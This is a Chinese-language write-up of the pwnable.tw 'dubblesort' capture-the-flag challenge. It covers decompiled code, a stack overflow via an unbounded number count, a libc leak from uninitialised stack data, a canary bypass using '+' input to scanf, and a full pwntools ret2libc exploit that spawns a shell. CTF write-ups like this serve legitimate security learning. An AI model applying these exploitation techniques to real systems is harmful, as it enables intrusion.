

# pwnable.tw dubblesort

### 0x1 分析

看一下安全性：

```shell
[*] './dubblesort'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

没什么可看的了。😂

捋一下程序逻辑：

`main()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int cnt; // eax
  int *v4; // edi
  unsigned int v5; // esi
  unsigned int v6; // esi
  int v7; // ST08_4
  int result; // eax
  unsigned int num; // [esp+18h] [ebp-74h]
  int num_list; // [esp+1Ch] [ebp-70h]
  char name; // [esp+3Ch] [ebp-50h]
  unsigned int v12; // [esp+7Ch] [ebp-10h]

  v12 = __readgsdword(0x14u);
  init();
  __printf_chk(1, "What your name :");
  read(0, &name, 0x40u);
  __printf_chk(1, "Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf("%u", &num);
  cnt = num;
  if ( num )
  {
    v4 = &num_list;
    v5 = 0;
    do
    {
      __printf_chk(1, "Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf("%u", v4);
      ++v5;
      cnt = num;
      ++v4;
    }
    while ( num > v5 );
  }
  sort((unsigned int *)&num_list, cnt);
  puts("Result :");
  if ( num )
  {
    v6 = 0;
    do
    {
      v7 = *(&num_list + v6);
      __printf_chk(1, "%u ");
      ++v6;
    }
    while ( num > v6 );
  }
  result = 0;
  if ( __readgsdword(0x14u) != v12 )
    panic();
  return result;
}
```

首先，输入自己的信息`name`，然后指定输入的数字个数，然后输入数字，最后排序输出。

这里很明显的发现，输入的数字个数是不受限制。也即是说可以一直写到`ret`。ROP的条件有了。

`sort()`:

```c
unsigned int __cdecl sort(unsigned int *num_list, int num)
{
  int v2; // ecx
  unsigned int *i; // edi
  unsigned int front; // edx
  unsigned int back; // esi
  unsigned int *num_ptr; // eax
  unsigned int result; // eax
  unsigned int v8; // et1
  unsigned int v9; // [esp+1Ch] [ebp-20h]

  v9 = __readgsdword(0x14u);
  puts("Processing......");
  sleep(1u);
  if ( num != 1 )
  {
    v2 = num - 2;
    for ( i = &num_list[num - 1]; ; --i )
    {
      if ( v2 != -1 )
      {
        num_ptr = num_list;
        do
        {
          front = *num_ptr;
          back = num_ptr[1];
          if ( *num_ptr > back )                // from little to big
          {
            *num_ptr = back;
            num_ptr[1] = front;
          }
          ++num_ptr;
        }
        while ( i != num_ptr );
        if ( !v2 )
          break;
      }
      --v2;
    }
  }
  v8 = __readgsdword(0x14u);
  result = v8 ^ v9;
  if ( v8 != v9 )
    panic();
  return result;
}
```

从大到小的冒泡排序。

#### 漏洞利用

很明显地想到`ret2libc`，但是需要leak libc。至于CANARY是可以绕过的。只要控制排序的数组中,CANARY还在原来的位置即可。

寄希望于输入`name`时没有清空的栈：

```shell
0f:003c│ ecx esi  0xffffd59c ◂— 0x61616161 ('aaaa')
10:0040│          0xffffd5a0 —▸ 0xffffd70a ◂— 0x8ba00000
11:0044│          0xffffd5a4 ◂— 0x2f /* '/' */
12:0048│          0xffffd5a8 —▸ 0x56555034 ◂— push   es
13:004c│          0xffffd5ac ◂— 0xd /* '\r' */
14:0050│          0xffffd5b0 ◂— 0x8000
15:0054│          0xffffd5b4 —▸ 0xf7fc2000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0 <===
16:0058│          0xffffd5b8 —▸ 0xf7fc0244 —▸ 0xf7e28020 (_IO_check_libio) ◂— call   0xf7f2fb59
```

果然看到可以利用的位置`_GLOBAL_OFFSET_TABLE_`，即`.got.plt`。

[相关](https://stackoverflow.com/questions/9686764/how-can-i-get-the-global-offset-table-address-in-my-program)



拿到`_GLOBAL_OFFSET_TABLE_`的偏移：（这是本地调试用的`libc.so.6`）

```shell
Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .note.gnu.build-i NOTE            00000174 000174 000024 00   A  0   0  4
  [ 2] .note.ABI-tag     NOTE            00000198 000198 000020 00   A  0   0  4
[···]
  [32] .got.plt          PROGBITS        001b2000 1b1000 000030 04  WA  0   0  4
  [33] .data             PROGBITS        001b2040 1b1040 000e94 00  WA  0   0 32
  [34] .bss              NOBITS          001b2ee0 1b1ed4 002b3c 00  WA  0   0 32
  [35] .note.stapsdt     NOTE            00000000 1b1ed4 000abc 00      0   0  4
```

这样就可控制`name`的大小来泄漏`libc`。

至于CANARY绕过。

`scanf()`函数在输入非法字符时不会从输入流中读取字符，而`+-`不是特殊字符。他们可以代表正负，所以只输入`+`，就可以避免覆盖CANARY。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'i386' , os = 'linux', log_level='debug')

p = process('./dubblesort')
# p = remote('chall.pwnable.tw', 10101)
# libc = ELF('libc_32.so.6')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

#leak libc
p.sendlineafter('What your name :', 'a' * 0x18)
p.recvuntil('Hello ' + 'a' * 0x18)
leak = u32(p.recv(4))
# libc_base = (leak & 0xfffff000) - 0x001b0000 # _GLOBAL_OFFSET_TABLE_
libc_base = (leak & 0xfffff000) - 0x001b2000
libc.address = libc_base
print (hex(libc_base))
gdb.attach(p, '\n')
pause()

#ret2libc
p.sendlineafter('How many numbers do you what to sort :', '35')
for i in range(24):
    p.sendlineafter('number : ', '1')
p.sendlineafter('number : ', '+')
for i in range(9):
    p.sendlineafter('number : ', str(libc.sym['system']))
p.sendlineafter('number : ', str(next(libc.search('/bin/sh'))))

#get shell
p.interactive()
```

